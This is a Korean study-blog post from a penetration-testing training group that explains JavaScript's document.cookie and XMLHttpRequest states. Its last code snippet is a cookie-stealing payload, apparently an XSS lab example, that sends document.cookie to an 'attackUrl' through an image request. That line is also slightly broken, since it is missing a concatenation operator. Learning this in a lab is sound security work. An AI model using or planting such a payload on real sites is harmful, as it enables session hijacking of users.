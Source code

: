 ```yaml
---
layout: post
title: "[JS] document.cookie, XMLHttpRequest"
date: 2024-11-12
last_modified_at: 
excerpt: "모의해킹 취업반 스터디 7기 4주차"
tags: [JS]
comments: true
---
```


# document.cookie

``` js
let cookie = document.cookie;
console.log(cookie);
```

# XMLHttpRequest
XMLHttpRequest (XHR) 객체는 서버와 상호작용할 때 사용한다.
XHR을 사용하면 페이지의 새로고침 없이도 URL에서 데이터를 가져올 수 있다.

## readystatechange
readyState 속성이 바뀔 때마다 발생한다.
onreadystatechange 속성으로도 수신할 수 있다.

### XHR.readyState
XHR.readyState property returns the state an XHR client is in. An XHR client exists in one of the following states:
<table>
    <th>
        <tr>
            <td>Value</td>
            <td>State</td>
            <td>Description</td>
        </tr>
    </th>
    <tbody>
        <tr>
            <td>0</td>
            <td>UNSENT</td>
            <td>Client has been created. open() not called yet.</td>
        </tr>
        <tr>
            <td>1</td>
            <td>OPENED</td>
            <td>open() has been called.</td>
        </tr>
        <tr>
            <td>2</td>
            <td>HEADERS_RECEIVED</td>
            <td>send() has been called, and headers and status are available.</td>
        </tr>
        <tr>
            <td>3</td>
            <td>LOADING</td>
            <td>Downloading; responseText holds partial data.</td>
        </tr>
        <tr>
            <td>4</td>
            <td>DONE</td>
            <td>The operation is complete.</td>
        </tr>
    </tbody>
</table>

``` js
let http = new XMLHttpRequest();
let url = "http://192.168.0.8:1018/4th/cookie.php";

http.open("GET", url);
http.send();
http.onreadystatechange = (e) => {
    console.log("http.responseText: ")
    console.log(http.responseText);
}
```

``` js
let cookieData = document.cookie;
let attackUrl = "http://192.168.0.8:1018/4th/cookie.php";
let img = new Image().src = attackUrl "?" + cookieData;
```

# 참고
* [XMLHttpRequest](https://developer.mozilla.org/ko/docs/Web/API/XMLHttpRequest)
* [XMLHttpRequest: readyState property](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/readyState)
* [이미지 객체](https://inpa.tistory.com/entry/JS-%F0%9F%93%9A-%EC%9E%90%EB%B0%94%EC%8A%A4%ED%81%AC%EB%A6%BD%ED%8A%B8-%EC%9D%B4%EB%AF%B8%EC%A7%80-%EA%B0%9D%EC%B2%B4-%EC%82%AC%EC%9A%A9%EB%B2%95)